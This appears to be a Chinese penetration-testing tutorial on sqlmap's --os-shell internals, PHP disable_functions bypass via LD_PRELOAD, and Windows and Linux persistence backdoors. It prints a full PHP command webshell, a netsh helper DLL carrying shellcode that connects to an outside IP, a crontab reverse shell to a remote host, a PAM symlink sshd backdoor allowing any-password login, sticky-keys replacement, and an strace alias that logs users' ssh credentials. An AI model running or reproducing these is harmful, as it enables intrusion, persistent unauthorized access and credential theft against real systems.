




## sqlmap --os-shell原理

众所周知，sqlmap的os-shell是一个可以通过sql注入来执行命令的功能，那么它的原理是什么

### 利用前提

①数据库为root权限且能通过file系列函数写文件（secure_file_priv必须允许file系列函数导出文件）

②知道网站的绝对路径

至于为什么需要这两个前提，我们往后看

### 原理

我们首先本地搭建一个存在sql注入漏洞的php代码，这里以dvwa的low级别sql注入为例：


sqlmap测试是否能成功注入

```sh
python sqlmap.py -u "http://www.dvwa.com/vulnerabilities/sqli/?id=1&Submit=%E6%8F%90%E4%BA%A4#" --cookie "PHPSESS
ID=a4t3f5c87erauafv950k25b5l4; security=low"
```


接着用--os-shell功能，我们跟着他的步骤走


网站语言选择php


填写绝对路径custom location（注意，这里的绝对路径指的是注入路径的绝对路径）:`D:\phpstudy_pro\WWW\localhost\dvwa\vulnerabilities\sqli\`




成功获取shell，我们再回过头来看一下步骤

根据sqlmap回显信息我们可以看到，填写完绝对路径后，经过了一个上传文件的步骤


为了了解整个过程中sqlmap做了什么，我们使用burpsuite进行抓包

```sh
python sqlmap.py -u "http://www.dvwa.com/vulnerabilities/sqli/?id=1&Submit=%E6%8F%90%E4%BA%A4#" --cookie "PHPSESS
ID=a4t3f5c87erauafv950k25b5l4; security=low" --os-shell --proxy "http://127.0.0.1:8080"
```



将payload进行url解码后：

```mysql
1' LIMIT 0,1 INTO OUTFILE 'D:/phpstudy_pro/WWW/localhost/dvwa/vulnerabilities/sqli/tmpuvxrj.php' LINES TERMINATED BY 0x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d443a5c5c70687073747564795f70726f5c5c5757575c5c6c6f63616c686f73745c5c647677615c5c76756c6e65726162696c69746965735c5c73716c695c5c3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a-- -
```

我们可以看到这里通过`INTO OUTFILE`向刚刚的绝对路径中写入了一个文件`tmpuvxrj.php`，内容为十六进制，我们再解析一下

```php
<?php
if (isset($_REQUEST["upload"])) {
	$dir=$_REQUEST["uploadDir"];
	if (phpversion()<'4.1.0') {
		$file=$HTTP_POST_FILES["file"]["name"];
		@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();
	} else {
		$file=$_FILES["file"]["name"];
		@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();
	}
	@chmod($dir."/".$file,0755);
	echo "File uploaded";
} else {
	echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=D:\\phpstudy_pro\\WWW\\localhost\\dvwa\\vulnerabilities\\sqli\\> <input type=submit name=upload value=upload></form>";
}
?>
```

访问该文件发现是一个上传页面


再接着看下一步


可以看到，这一步是通过刚刚的上传页面，上传了一个php文件`tmpbqoko.php`，内容为：

```php
<?php $c=$_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set("max_execution_time",0);
$z=@ini_get("disable_functions");
if(!empty($z)) {
	$z=preg_replace("/[, ]+/",',',$z);
	$z=explode(',',$z);
	$z=array_map("trim",$z);
} else {
	$z=array();
}
$c=$c." 2>&1\n";
function f($n) {
	global $z;
	return is_callable($n)and!in_array($n,$z);
}
if(f("system")) {
	ob_start();
	system($c);
	$w=ob_get_clean();
} elseif(f("proc_open")) {
	$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);
	$w=NULL;
	while(!feof($t[1])) {
		$w.=fread($t[1],512);
	}
	@proc_close($y);
} elseif(f("shell_exec")) {
	$w=shell_exec($c);
} elseif(f("passthru")) {
	ob_start();
	passthru($c);
	$w=ob_get_clean();
} elseif(f("popen")) {
	$x=popen($c,r);
	$w=NULL;
	if(is_resource($x)) {
		while(!feof($x)) {
			$w.=fread($x,512);
		}
	}
	@pclose($x);
} elseif(f("exec")) {
	$w=array();
	exec($c,$w);
	$w=join(chr(10),$w).chr(10);
} else {
	$w=0;
}
echo"<pre>$w</pre>";
?>
```

看起来很杂，其实总结起来就是**通过get传递参数cmd来执行命令**：


### 总结

经过以上分析，总结一下--os-shell的整个利用过程

首先判断是否存在注入点

接着选择程序语言，这一步是为了选择合适的exp

然后填写网站的绝对路径，这一步是为了确认输出文件的路径

两个步骤填写完之后，sqlmap通过注入点进行sql注入，通过`INTO OUTFILE`命令写入一个用来上传文件的php代码

> 注意，这一步就是为什么最开始说的需要数据库dba权限，并且secure_file_priv的值设置为可写入，否则文件是写不进去的

写入上传页面后，再通过这个上传页面上传了一个通过get请求来命令执行的代码，最后接受返回的内容回显出来。

> 不明白原理之前还觉得挺实用的功能，了解过原理之后，总体来说感觉还是非常鸡肋的，毕竟利用的前提非常的严格，要是有写入权限，直接写webshell进去就行了，不用这么麻烦。。嘛，不过山人自有妙计，这功能应该也有能起作用的时候吧

------

## Disable_functions

在一般情况下，php的默认会存在很多危险的函数（例如system等），所以为了安全，除了在特殊程序中需要使用的函数，都会用php.ini中的disable_functions参数禁用掉，可以很大程度上防止webshell的危害；

但是相对的，disable_functions也有很多不严谨的地方，渗透过程中遇到disble_functions也并不是无计可施，这里以最常见的几种绕过方法为例：

### 禁用不完全

php中，本身用来提供命令执行的功能有：system，exec，shell_exec等，但是除了这些，还存在其他的可以用来命令执行的函数：

```php
passthru()	//执行外部程序并且显示原始输出
popen() 	//函数打开进程文件指针。
proc_open()	//执行一个命令，并且打开用来输入/输出的文件指针
```

passthru：


popen：


proc_open：


### 环境变量LD_PRELOAD绕过

#### LD_PRELOAD概念

LD_PRELOAD本身是linux系统的环境变量，可以影响程序运行时的链接，在程序运行前优先加载指定的动态链接库（so文件）；

我的理解是这个功能本身是为了可以加载自己或者优化的函数库，但是相对的，这个功能也可以被攻击者用来加载一些恶意动态链接库文件，从而达成某些目的


#### 利用前提

①能够上传.so文件

②能控制环境变量，用以设置LD_PRELOAD变量为自己的恶意动态链接库（putenv）

③存在其他的能调用系统外部程序的函数，例如mail()函数等


#### 利用过程

这里就以system被禁用为例


禁用后执行如下：


这里利用mail函数来掩饰，首先我们先来看一下mail函数在php里的解释：

Mail 函数的行为受 php.ini 文件中的设置的影响，其中**sendmail_path**参数是用来规定sendmail程序的路径并且默认是linux系统的sendmail命令


既然我们要用环境变量来“劫持”动态链接库，就要先看一下sendmail调用了哪些函数

这里要用到readelf命令

> 一般用于查看ELF格式的文件信息，常见的文件如在Linux上的可执行文件，动态库(.so)或者静态库(.a) 等包含ELF格式的文件。

使用以下命令查看

```sh
readelf -Ws /usr/sbin/sendmail
```


这里以getuid库函数为例来编写恶意动态链接库文件，用c语言写：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void payload(){				//定义一个用来执行命令的函数payload
    system("echo 'Y5neKO test.'");		//功能是执行echo输出一句话
}

int getuid(){				//用来劫持getuid函数
    if (getenv("LD_PRELOAD") == NULL){		//判断LD_PRELOAD环境变量是否存在
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();					//执行payload函数
}
```

用gcc以动态链接数据库的形式编译出来：


丢尽ida我们可以看见payload函数劫持执行的命令：


假设我们已经写入了恶意so文件到指定目录


接下来我们写php用来利用putenv函数设置LD_PRELOAD环境变量

```php
<?php
putenv("LD_PRELOAD=/root/test/test2.so");
mail("1","2","3");
?>
```

执行php可以看到结果


成功执行命令

------

一般情况下，按正常渗透流程走，不是拿到权限就走的

虽然说拿权限的过程非常困难，但是拿到权限后的权限维持也不简单，也就是通俗讲的“留后门”

## Windows持久化

以几种常见的方式为例：

### 自启动

关于实现自启动有很多种方法，例如修改注册表自启动等，一般都是利用Windows本身的自启动功能来实现

这类方法优点就是方便快捷，缺点也很明显，就是所需权限很高，而且利用太过于暴露，很容易被发现（估计只有从来没维护过的机子能用）

### 登录脚本

这个方法主要是通过修改注册表键值`UserInitMprLogonScript`来实现登录就执行脚本

UserInitMprLogonScript键值中指定的内容会在大多数软件启动前执行，包括部分杀毒软件（当然每种杀软也有自己的解决方案）


重新启动


### UserInit

userinit本身是windows的一个重要程序，顾名思义能想到它是主管系统启动后相关事项的程序，它的注册表键值是`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon\userinit`

和登录脚本类似，也是通过这个来启动运行脚本


### 辅助功能劫持

辅助功能，也就是诸如放大镜，屏幕讲述人，粘滞键之类的工具，可以通过快捷键启动

这种应该算是非常古老的方法了吧，这里以shift后门为例：

Windows粘滞键本身是为了不方便同时按组合键的人群使用的功能，在连按5次shift键后打开粘滞键，也就是启动了system32目录下的sethc.exe


在登入状态中，连按5次shift会以当前用户权限执行sethc.exe，而在登录界面还未登录时会默认以system用户（管理员权限）执行（2012版本以前）

连按5次shift，windows会在system32目录下寻找sethc.exe并启动，我们只需要把cmd或者其他的shell程序替换掉，那么我们启动sethc.exe的时候就会默认以system用户执行我们的cmd，而且因为是系统自带的应用所以不会被杀毒软件检测，不过现在应该行不通了，算是一个古老后门吧

如果我们在渗透过程中拿到较高权限的shell就可以直接在shell里面执行命令

```powershell
copy C:\WINDOWS\system32\cmd.exe C:\windows\system32\sethc.exe
```

或者在拿到远程桌面后直接在系统里面替换

```powershell
@copy c:\windows\explorer.exe c:\windows\system32\sethc.exe
@copy c:\windows\system32\sethc.exe c:\windows\system32\dllcache\sethc.exe
@attrib c:\windows\system32\sethc.exe +h
@attrib c:\windows\system32\dllcache\sethc.exe +h
copy c:\windows\explorer.exe c:\windows\system32\sethc.exe
copy c:\windows\system32\sethc.exe c:\windows\system32\dllcache\sethc.exe
attrib c:\windows\system32\sethc.exe +h
attrib c:\windows\system32\dllcache\sethc.exe +h
```


然后复制cmd到system32目录下并且命名sethc.exe，或者可以下载更隐藏的后门软件，我这里用的是黑基2012的后门，隐蔽性更高


替换成功


接下来我们用主机连接远程桌面试试



启动成功，并且为system权限


### 定时任务

定时任务是windows中类似linux计划任务的东西，windows中的定时任务主要有两种方法，schtasks与at，一般情况下schtasks比at更好用


也可以用命令行执行

```powershell
schtasks /create /sc minute /mo 1 /tn "TEST2" /tr wscript.exe C:\test\test.bat
```


### WMI后门

> WMI（Windows管理工具）是微软基于Web的企业管理（WBEM）的实现版本，这是一项行业计划，旨在开发用于访问企业环境中管理信息的标准技术。

*ps：这个因为原理实在没有搞懂，这里就以实例来写了。。。*

这里以Bliack_Hat 2015的poc为例


### Bitsadmin

bitsadmin.exe是windows自带的可用于创建下载或上载作业并监视其进度，bistadmin可以指定下载成功之后要进行什么命令，本身应该是为了方便完成下载任务后可以自动进行其他操作

因此我们用它做持久化就是利用下载完成后自动执行命令的特性来形成持续化后门

```powershell
bitsadmin /create test		#创建任务test
bitsadmin /addfile test https://blog.ysneko.com/index.php %temp%/1.txt 	#给任务test添加一个下载文件，本地文件防止无网情况，添加到temp目录是利用了temp目录每次关闭后会清空的特性，来达成自动执行的作用
bitsadmin /SetNotifyCmdLine test "%COMSPEC%" "cmd.exe /c start /B C:\test\test.bat"	#设置下载完成后执行的命令，通过cmd参数完成
bitsadmin /Resume test	#启动bitsadmin任务
```


这里路径错了，不碍事。。。。


`bitsadmin /list /allusers /verbose`可以查看所有bitsadmin任务


### helper.dll劫持

netsh是windows本身提供的网络配置命令行工具，他有一个helper功能，可以让我们添加恶意dll文件，添加成功后每次调用netsh都会加载这个恶意dll，从而达到劫持的目的

下面是`https://github.com/outflanknl/NetshHelperBeacon`项目提供的源码，功能是打开cacl

```c++
#include <stdio.h>
#include <windows.h>

#ifdef _M_X64
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\xe8\x80\x00\x00\x00\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x3b\x20\x54\x6f\x75\x63\x68\x29\x00\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x00\x59\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x61\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x44\x48\x89\xc1\x48\x31\xd2\x41\x58\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x6a\x0a\x5f\x48\x89\xf1\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1d\x48\xff\xcf\x74\x10\xeb\xdf\xeb\x64\xe8\xb7\xff\xff\xff\x2f\x53\x4a\x48\x78\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x48\x8b\x07\x48\x01\xc3\x48\x85\xc0\x75\xd6\x58\x58\xc3\xe8\x34\xff\xff\xff\x31\x39\x38\x2e\x32\x31\x31\x2e\x31\x32\x35\x2e\x32\x31\x39\x00";
#else
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\xe8\x80\x00\x00\x00\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x3b\x20\x54\x6f\x75\x63\x68\x29\x00\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x00\x59\x31\xff\x57\x57\x57\x57\x51\x68\x3a\x56\x79\xa7\xff\xd5\xeb\x79\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x50\x00\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x62\x59\x31\xd2\x52\x68\x00\x02\x60\x84\x52\x52\x52\x51\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x31\xff\x57\x57\x57\x57\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x74\x44\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xbc\x31\xff\xeb\x15\xeb\x49\xe8\x99\xff\xff\xff\x2f\x4e\x61\x4a\x69\x00\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xcd\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\x37\xff\xff\xff\x31\x39\x38\x2e\x32\x31\x31\x2e\x31\x32\x35\x2e\x32\x31\x39\x00";
#endif

// Start a seperate thread so netsh remains usefull. Loosely copied from https://gist.github.com/securitytube/c956348435cc90b8e1f7 
DWORD WINAPI ThreadFunction(LPVOID lpParameter)
{
	LPVOID newMemory;
	HANDLE currentProcess;
	SIZE_T bytesWritten;
	BOOL didWeCopy = FALSE;
	// Get the current process handle 
	currentProcess = GetCurrentProcess();
	// Allocate memory with Read+Write+Execute permissions 
	newMemory = VirtualAllocEx(currentProcess, NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (newMemory == NULL)
		return -1;
	// Copy the shellcode into the memory we just created 
	didWeCopy = WriteProcessMemory(currentProcess, newMemory, (LPCVOID)&buf, sizeof(buf), &bytesWritten);
	if (!didWeCopy)
		return -2;
	// Yay! Let's run our shellcode! 
	((void(*)())newMemory)();
	return 1;
}

// define the DLL handler 'InitHelpderDll' as required by netsh.
// See https://msdn.microsoft.com/en-us/library/windows/desktop/ms708327(v=vs.85).aspx
extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved)
{
	//make a thread handler, start the function as a thread, and close the handler 
	HANDLE threadHandle;
	threadHandle = CreateThread(NULL, 0, ThreadFunction, NULL, 0, NULL);
	CloseHandle(threadHandle);
	// simple testing by starting calculator
	system ("start calc");

	// return NO_ERROR is required. Here we are doing it the nasty way
	return 0;
}
```

编译好后添加dll到helper.dll，然后调用netsh

```powershell
netsh add helper C:\Users\Administrator\Desktop\NetshHelperBeacon.dll
```


------

## Linux持久化

### 计划任务后门

计划任务对应Windows的定时任务，通过linux的crontab来进行权限维持，一般情况下是配合反弹shell

```sh
 crontab -l
 echo '*/60 * * * *   exec 9<> /dev/tcp/192.169.189.16/8888;exec 0<&9;exec 1>&9   2>&1;/bin/bash --noprofile -i'	#60分钟执行一次，反弹本机shell到指定服务器（）的8888端口
```

使用nc监听指定端口

```sh
nc -nvlp 8888
```


成功上线


### SUID Shell

这种方式，我的理解就是通过将bash复制到低权限目录，再将所有者权限给地权限的用户，这样，即使使用低权限用户也能使用root权限执行命令

假设已经拿到root权限，使用`cp /bin/bash /tmp/hackshell`复制bash到低权限目录，并赋予所有权限：


接下来使用普通用户登录



进入刚刚复制的bash


可以看到此时并没有生效，因为bash2以上有一些防护措施，需要带上-p参数才能获取带root的bash

我这里因为bash版本太高（5.0.17），又找不到低版本环境，就不演示了


总体来说也算是一个古老方法了吧，遇见古董系统还能用一用。

### ssh公私钥免密登录

这种方法怎么说呢，我的感觉不像是利用系统漏洞来维持权限，更接近社会工程学

毕竟利用的是完全正常的功能，也不能算漏洞或者木马，但是如果运维人员不仔细检查，也能成功瞒天过海，达到维持权限的作用

过程和原理就是ssh配置公钥登录，这里就不演示了

### 软链接

这种方法的前提是ssh启用了PAM认证机制，PAM配置文件中控制标志为sufficient时只要pam_rootok模块检测uid为0即root权限即可成功认证登陆

我的理解是PAM认证本身是通过软链接的文件名来到`/etc/pam.d/`查找对应的pam配置文件


而任意密码登录的核心是`auth sufficient pam_rootok.so`，因此只要配置文件中含有这一条配置的文件都可以


接下来我们使用软链接将`/tmp/su`指向`/usr/sbin/sshd`

```sh
ln -sf /usr/sbin/sshd /tmp/su
```


通过软连接指定端口8888

```sh
/tmp/su -oPort=8888
```


执行完后可以通过8888端口使用任意密码登录ssh

### strace后门

这个方法是通过alias命令来替换跟踪系统调用数据，可以通过这个来记录用户ssh之类的操作

首先编辑 /etc/bashrc

```sh
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
```


使用`source /root/.bashrc`刷新一下shell环境


